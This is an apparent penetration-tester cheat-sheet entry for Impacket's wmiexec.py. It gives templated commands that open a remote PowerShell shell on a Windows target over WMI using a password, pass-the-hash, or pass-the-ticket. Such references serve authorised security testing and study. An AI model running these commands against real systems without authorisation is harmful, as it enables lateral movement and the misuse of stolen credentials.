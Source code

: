 # wmiexec.py (imp)

% windows, impacket-exec
#plateform/linux #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT

## desc
```
Execute a command or semi-interactive shell without touching the disk or running a new service using WMI
```

## execute (creds)
```bash
wmiexec.py -debug -shell-type powershell <domain_fqdn>/<user>:'<password>'@<target_fqdn>
```

## execute (pth) 
```bash
wmiexec.py -debug -shell-type powershell -hashes :<nt_hash> <user>@<target_fqdn>
```

## execute (ptt)
```bash
KRB5CCNAME=<ccache>  wmiexec.py -debug -shell-type powershell -no-pass -k <target_fqdn>
```